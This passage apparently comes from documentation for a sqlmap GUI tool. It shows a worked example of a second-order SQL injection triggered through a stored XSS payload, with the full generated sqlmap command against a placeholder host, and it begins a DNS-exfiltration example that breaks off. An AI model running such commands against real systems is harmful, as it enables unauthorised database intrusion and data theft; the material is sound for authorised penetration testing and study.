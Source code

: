 ### Example 3: Stored XSS to SQL Injection
**Scenario:** Exploit stored XSS that leads to SQL injection in admin panel

**Target Information:**
- XSS Storage: `http://victim.com/comment.php`
- SQL Injection: `http://victim.com/admin/comments.php?id=1`
- Payload stored and executed in different context

**GUI Configuration:**
```
Target Tab:
├── URL: http://victim.com/admin/comments.php?id=1
└── Cookie: admin_session=authenticated

Miscellaneous Tab:
├── Second-Order: http://victim.com/comment.php
├── Second-Order Data: comment=<script>stored xss</script>
└── Second-Order Method: POST

Injection Tab:
├── Testable Parameters: id
├── DBMS: PostgreSQL
└── Tamper Scripts: space2comment

Detection Tab:
├── Level: 5
├── Risk: 3
├── Techniques: BEUSTQ
└── Time Delay: 3

Request Tab:
├── Safe URL: http://victim.com/admin/keepalive.php
├── Safe POST: maintain_session=1
└── Delay: 2
```

**Generated Command:**
```bash
sqlmap -u "http://victim.com/admin/comments.php?id=1" --cookie="admin_session=authenticated" --second-order="http://victim.com/comment.php" --second-order-data="comment=<script>stored xss</script>" --second-order-method=POST -p id --dbms=postgresql --tamper=space2comment --level=5 --risk=3 --technique=BEUSTQ --time-sec=3 --safe-url="http://victim.com/admin/keepalive.php" --safe-post="maintain_session=1" --delay=2
```

## 🌐 Out-of-Band Exploitation

### Example 4: DNS Exfiltration
**Scenario:** Extract data through DNS queries when direct response is blocked

**Target Information:**
- URL: `http://firewalled-target.com/page.php?id=1`
- Firewall: Blocks all outbound HTTP traffic
- DNS: Allowed for resolution
